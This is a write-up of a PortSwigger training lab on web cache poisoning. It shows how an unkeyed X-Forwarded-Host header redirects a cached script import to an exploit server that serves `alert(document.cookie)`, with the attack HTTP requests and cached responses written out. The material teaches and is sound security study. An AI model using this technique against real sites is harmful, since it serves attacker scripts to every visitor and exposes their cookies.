

# [Lab: Web cache poisoning with an unkeyed header](https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws/lab-web-cache-poisoning-with-an-unkeyed-header)

## Lab

This lab is vulnerable to web cache poisoning because it handles input from an unkeyed header in an unsafe way. An unsuspecting user regularly visits the site's home page. To solve this lab, poison the cache with a response that executes `alert(document.cookie)` in the visitor's browser.

## Scan

Param Miner extension results, `x-forwarded-host` is an unkeyed header:



## Analysis

Observe that the X-Forwarded-Host header has been used to dynamically generate an absolute URL for importing a JavaScript file stored at `/resources/js/tracking.js`.

Replay the request and observe that the response contains the header X-Cache: hit. This tells us that the response came from the cache.

## Solutions

Craft response at exploit-server:

- file: `/resources/js/tracking.js`
- body: `alert(document.cookie)`

cache poisoning:

```http
GET / HTTP/1.1
Host: id.web-security-academy.net
...
X-Forwarded-Host: exploit-id.exploit-server.net

HTTP/1.1 200 OK
Cache-Control: max-age=30
Age: 0
X-Cache: miss

<script type="text/javascript" src="//exploit-id.exploit-server.net/resources/js/tracking.js"></script>
```

access `/` without `X-Forwarded-Host`:

  ```http
  HTTP/1.1 200 OK
  Cache-Control: max-age=30
  Age: 10
  X-Cache: hit

  <script type="text/javascript" src="//exploit-id.exploit-server.net/resources/js/tracking.js"></script>
  ```

=> solved
